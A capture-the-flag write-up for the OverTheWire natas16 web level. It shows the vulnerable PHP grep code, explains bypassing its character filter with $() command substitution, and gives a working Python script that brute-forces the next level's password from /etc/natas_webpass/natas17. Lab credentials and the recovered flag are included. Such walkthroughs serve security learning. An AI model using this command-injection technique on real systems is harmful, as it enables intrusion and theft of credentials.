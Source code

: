 This is a more secure version of `natas9`. 

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];
}

if($key != "") {
	if(preg_match('/[;|&`\'"]/',$key)) {
		print "Input contains an illegal character!";
	} else {
		passthru("grep -i \"$key\" dictionary.txt");
	}
}
?>
```

It filters for specific characters, preventing us from doing the same thing as `natas9`. When this program runs the `passthru` command, the key is enclosed in quotes, making it a string. So regularly, we can't execute strings. But if we use `$()`, we could actually execute it. We can test this hypothesis by typing this text into the input:

```sh
$(echo Asians)
```

This gave us "*Asians*". So we can execute commands from this. However, we can just do `$(cat /etc/natas_webpass/natas17)` because the output of this command will be fed into the outer grep command, which will give us nothing. So we need to brute force this just like the previous level.

Since the output of the inner command will be fed into the outer grep command, we could try grepping each characters to derive the password. We can combine the output of the inner grep command with a word that we know is in `dictionary.txt` like "*Asians*" for example. If we don't find the correct character, then the output of the inner command will be empty, which won't affect the outer command's grepping for "*Asians*" and it would still output "Asians". But if we do find the correct character, then the output of the inner command will be combined with "*Asians*", making it so that we the outer grep command will be grepping for "*inner_command_output + Asians*" instead of just "*Asians*". So all we need to do is try to derive each of the 32 characters. We could do this using a similar script to `natas15` (since it didn't specify any POST request when uploading the input into the script, we'll use GET requests):

```python
import requests
import string

url = 'http://natas16.natas.labs.overthewire.org'
username = 'natas16'
password = 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo'

characters = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in characters:
        command = '$(grep -E ^%s%c.* /etc/natas_webpass/natas17)Asians' % (flag, char)
        response = requests.get(url, auth=(username, password), params={"needle" : command})
        
        if "Asians" not in response.text:
            flag += char
            print(f'Building flag: {flag}')
            break

print(f'Complete flag: {flag}')
```

The regex (used with `-E` for extended regex):
- `^` means assert position at the start of the line
- `%s%c` are placeholder, helps us combine both the flag being built and testing the next correct character.
- `.` matches any character (except for line terminators)
- `*` matches the previous token for unlimited amount of times.

Here's the output:
```
Complete flag: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```